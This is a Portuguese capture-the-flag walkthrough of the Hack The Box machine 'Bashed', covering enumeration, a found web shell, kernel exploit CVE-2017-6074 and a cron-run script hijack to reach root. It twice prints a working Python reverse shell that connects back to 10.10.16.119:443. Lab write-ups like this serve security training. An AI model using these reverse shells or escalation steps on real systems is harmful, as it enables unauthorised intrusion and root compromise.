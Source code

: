 ```yaml
---
title: "Hack The Box - Bashed"
tags: [Linux,Easy,Linux Exploit Suggester,Wfuzz,CVE-2017-6074,dccp,LinEnum,Linpeas,Pspy]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/118>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos apenas a porta 80 aberta

> Portas 80 -> Servidor Web, bom ponto de entrada, uma vez que geralmente máquinas do HTB são exploradas por servidores Web

## Enumeração da porta 80

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_web.png)

## Rodamos `wfuzz` na porta 80

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_wfuzz.png)

# Exploração

## O que nos chamou atenção de cara foi a pasta `/dev`, então vamos verificar o que tem nela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_web1.png)

```
Temos um shell...
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_web2.png)

### Fazemos um shell reverso na nossa máquina, para melhor trabalhar com ela

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.119",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_web3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_web4.png)

# Escalação de privilégio

## Novamente rodaremos o `Linux Exploit Suggester` na máquina para procurar formas de se escalar privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_les.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_les1.png)

### Iremos explorar essa vulnerabilidade `CVE-2017-6074`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_les2.png)

### Procuramos por ela na internet

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp1.png)

### Copiamos pra nossa máquina e compilamos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_comp.png)

### Após compilar, passamos pra máquina Bashed

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pwn0.png)

#### Tornamos executável e ganhamos shell de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pwn.png)

```
Explorando ela desse modo me sinto trapaceando, não gosto disso, então vamos explorar de maneira diferente agora, como deveria ter sido feito
```

________

## Rodamos o `LinEnum` para descobrir modo de escalar privilégio sem ser por Kernel

O script é esse:

> https://github.com/rebootuser/LinEnum

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_lin.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_lin1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_lin2.png)

### Verificamos que podemos realizar comandos de sudo com o usuário scriptmanager

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_lin3.png)

### Nos tornamos `scritpmanager`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_lin4.png)

### Rodamos agora outro script para variar um pouco, o escolhido dessa vez é o `Linpeas`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas2.png)

### Encontramos o caminho das pedras para root em um arquivo `test.txt` que foi alterado há 5 minutos, possivelmente tem algum script rodando

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas3.png)

### Entramos na pasta para verificar melhor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas4.png)

#### Olha que interessante! O arquito test.txt tem como dono root, ou seja quem executa o test.py é o root com algm cron

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas5.png)

### Alteramos o test.py com um python reverse shell

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.119",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas7.png)

#### Ganhamos um shell de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_peas8.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_root.png)

```
Máquina feita do jeito "certo", mas ainda não estou satisfeito de saber como esse script está rodando meu código em python como root
```
## Verificamos no "/etc/cron*", pra ver se tem algum cronjob de root rodando o script e não achamos nada

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_cron.png)

## Com o auxílio do `PSPY` consigo descobrir isso, como está sendo feita a execução

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pspy.png)

### Passamos ele para a máquinas Bashed

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pspy1.png)

### Executamos ele na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pspy2.png)

### Descobrimos, o sistema executa o script tesy.py, como demonstrado na imagem abaixo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bashed/Bashed_pspy3.png)
